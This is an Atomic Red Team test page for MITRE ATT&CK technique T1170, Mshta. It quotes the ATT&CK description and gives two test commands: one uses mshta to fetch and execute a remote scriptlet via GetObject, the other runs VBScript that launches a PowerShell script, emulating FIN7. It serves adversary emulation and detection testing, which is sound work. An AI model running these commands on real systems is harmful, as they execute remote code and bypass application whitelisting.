 # T1170 - Mshta
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1170)
<blockquote>Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). HTA files have the file extension <code>.hta</code>. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application whitelisting solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject](#atomic-test-1---mshta-executes-javascript-scheme-fetch-remote-payload-with-getobject)

- [Atomic Test #2 - Mshta executes VBScript to execute malicious code](#atomic-test-2---mshta-executes-vbscript-to-execute-malicious-code)


<br/>

## Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject
Test execution of a remote script using mshta.exe

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_url | location of the payload | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/mshta.sct|

#### Run it with `command_prompt`! 
```
mshta.exe javascript:a=(GetObject('script:#{file_url}')).Exec();close();
```



<br/>
<br/>

## Atomic Test #2 - Mshta executes VBScript to execute malicious code
Run a local VB script to run local user enumeration powershell command

This attempts to emulate what FIN7 does with this technique which is using mshta.exe to execute VBScript to execute malicious code on victim systems.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| atomics_path | path to atomics folder | path | ..\..\atomics|

#### Run it with `command_prompt`! 
```
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -noexit -file #{atomics_path}\T1170\src\powershell.ps1"":close")
```



<br/>
